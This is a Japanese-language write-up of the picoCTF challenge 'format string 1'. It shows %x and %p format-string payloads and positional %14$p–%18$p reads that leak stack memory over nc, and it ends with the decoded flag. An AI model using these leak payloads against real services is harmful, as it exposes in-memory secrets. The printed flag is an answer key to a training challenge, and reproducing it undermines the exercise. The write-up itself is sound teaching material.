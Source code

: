 # format string 1:Binary Exploitation

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!\
Download the binary [here]().\
Download the source [here]().
Connect with the challenge instance here: `nc mimas.picoctf.net 49971`

# Solution

secret menuなるものを探せとのことである。とりあえず、`nc mimas.picoctf.net 49971`を実行してみる。
```
$ nc mimas.picoctf.net 49971
Give me your order and I'll read it back to you:
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's your order: 402118064318a000146a880a347834fdd41ef064109e606432e4d01fdd41fc0006f6369706d316e34333179373431665f646635337643308d87743072506c797453964341de9641120986432e4d00fdd41fd078257825782578257825782578257825
Bye!
```

いきなり、書式文字列攻撃とみたてて%xを大量に投げたら、途中から%xの16進が連続したので、それまでの部分で何かフラグっぽいものを探す。picoは`70 69 63 6f`なのでこれをヒントに探すと、`6f636970`という部分を発見。リトルエンディアンでフラグが格納されているようだ。ただし、フラグの一部が欠落しているので、入力を`%p`に変えてもう一度実行する。
```
$ nc mimas.picoctf.net 58878
Give me your order and I'll read it back to you:
%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's your order: 0x402118(nil)0x71c498968a00(nil)0x6628800xa3478340x7fffe8b2bc100x71c498759e600x71c49897e4d00x10x7fffe8b2bce0(nil)(nil)0x7b4654436f636970
```
14個目あたりにフラグっぽいやつが出てきた。入力を`%14$p%15$p%16$p%17$p%18$p`に変えてフラグを出力させる。
`0x7b4654436f6369700x355f31346d316e340x3478345f333179370x31395f673431665f0x7d653464663533`これが出てきたのでcyberchefに投げる。
From Hexで`{FTCocip5_14m1n44x4_31y719_g41f_}e4df53`と出てきたので、8文字ずつ並べ変える。


`picoCTF{4n1m41_57y13_4x4_f14g_9135fd4e}`

